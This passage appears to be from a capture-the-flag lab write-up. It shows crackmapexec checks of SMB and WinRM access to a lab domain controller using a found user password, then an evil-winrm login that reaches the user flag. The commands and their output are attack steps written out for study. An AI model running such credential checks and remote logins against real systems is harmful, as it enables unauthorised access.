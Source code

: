 ```
destiny@falcon:~/vulnlab.com/Baby-W$ crackmapexec smb baby.vl -u Caroline.Robinson -p 'Password123##'

SMB baby.vl 445 BABYDC [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)

SMB baby.vl 445 BABYDC [+] baby.vl\Caroline.Robinson:Password123##
```

Enumerated the available SMB shares for the user.

<img src="attachments/ebe80fb5b9fdbc890603c11821f24f09.png" />

We also checked if we could use the WinRM protocol to log in as this user, as we remembered the port was open from the Nmap scan, and confirmed we had access.

```
destiny@falcon:~/vulnlab.com/Baby-W$ crackmapexec winrm baby.vl -u Caroline.Robinson -p 'Password123##' 
SMB         baby.vl         5985   BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
HTTP        baby.vl         5985   BABYDC           [*] http://baby.vl:5985/wsman
WINRM       baby.vl         5985   BABYDC           [+] baby.vl\Caroline.Robinson:Password123## (Pwn3d!)
```

We logged into the machine using the credentials and obtained the user flag.

```
destiny@falcon:~/vulnlab.com/Baby-W$ evil-winrm -i baby.vl -u 'Caroline.Robinson' -p 'Password123##' 

*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> ls


    Directory: C:\Users\Caroline.Robinson\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/21/2016   3:36 PM            527 EC2 Feedback.website
-a----         6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website
-a----        11/21/2021   3:24 PM             36 user.txt

```